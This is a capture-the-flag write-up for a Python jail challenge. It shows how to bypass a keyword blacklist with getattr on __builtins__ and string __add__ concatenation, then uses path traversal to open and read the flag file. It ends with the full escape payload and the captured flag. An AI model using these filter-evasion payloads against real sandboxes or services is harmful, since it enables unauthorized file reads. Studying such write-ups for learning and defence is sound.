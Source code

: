# "as" "df"

![chall](./Images/asdf.PNG)

In this challenge, we are given access to a server running a python interface.

```
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: 
```

In order to begin crafting an exploit, we should first figure out what properties and methods we have access to. We can do that with the `dir()` command.

Running `print(dir())` returns:

```python
Enter command: print(dir())
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'sys', 'user_input']
```

We can see the property `blacklist`. It would be helpful to figure out what exactly is blacklisted.

```python
Enter command: print(blacklist)
('eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', ';', '+', 'ord', 'chr', 'base', 'flag', 'replace', ' ', 'decode', 'join')
```

Those important methods `open()` and `read()` are blacklisted. We can use pass the objects we have access to, to `dir` to look for tools to bypass these restrictions. When we look in `__builtins__` we can see we have access to `getattr()`. `getattr()` can be used with two arguments to access an attribute of a object. For example: `getattr(__builtins__,"open")`. This is the first step to regaining access to those two important methods. Still, we can't send the word `open` or use `+` to obfuscate it. Luckily if we look in `__file__`, we can see the `__add__` command is available.

```python
Enter command: print(dir(__file__))
['__add__', '__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'capitalize', 'casefold', 'center', 'count', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'format_map', 'index', 'isalnum', 'isalpha', 'isascii', 'isdecimal', 'isdigit', 'isidentifier', 'islower', 'isnumeric', 'isprintable', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'maketrans', 'partition', 'removeprefix', 'removesuffix', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```

Now, we have all we need for the exploit.
First, we call `open()`. We can use `getattr()` to access `open()` from `__builtins__` like this: `getattr(__builtins__,"op".__add__("en")`.

This will return the function, so we need to pass it the parameters _path_ and _mode_. We don't know where the current working directory is relative to the root so we can just add a lot of `../`'s to keep moving towards the root. We don't have to worry about having too many since you can't move up from the root.

Our exploit so far is:

```python
getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r')
```

Next, open will return a file handle so we need to call the read function. We can use `getattr()` again, passing the file handle as the first parameter and `read()` as the second. Our exploit now looks like this:

```python
getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))()
```

Finally wrap it in a `print()` and we are set!

#### Final exploit:

```python
Enter command: print(getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))())
SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}
```
